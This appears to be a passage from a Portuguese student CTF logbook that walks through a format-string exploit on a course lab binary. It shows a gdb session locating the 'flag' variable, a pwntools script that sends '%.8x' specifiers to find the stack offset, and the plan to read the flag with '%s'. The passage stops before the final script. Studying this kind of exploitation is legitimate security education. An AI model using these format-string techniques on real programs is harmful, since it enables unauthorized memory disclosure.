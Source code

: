```bash
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Reading symbols from program...
(gdb) b fflush
Breakpoint 1 at 0x80490d0
(gdb) run
Starting program:FSI/Semana7-Desafio1/program
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Try to unlock the flag.

Breakpoint 1, 0xf7df8a58 in fflush () from /lib32/libc.so.6
(gdb) p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
(gdb)
```

<p>
Após isso decidimos decidimos verificar quantos '%x' precisariamos de utilizar para encontrarmos o conteúdo do nosso input. Para tal, colocamos como input '0000' e aquando a execução do script deveriamos procurar pelo valor '0x30303030'. Assim, o nosso script foi o seguinte: </p>

```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"0000" + b"%.8x"*10)
p.interactive()
```

<p>
Após a execução do script, conseguimos encontrar o valor '0x30303030' na posição 1.
</p>

![Alt text](uploads/logbook7P9.png)

<p>
Assim, conseguimos concluir que para obter a flag precisamo de colococar no nosso input, o endereço da variável 'flag' seguido de 1 '%s' para conseguir ler o seu conteúdo. Assim, o nosso script foi o seguinte:
</p>
</div>
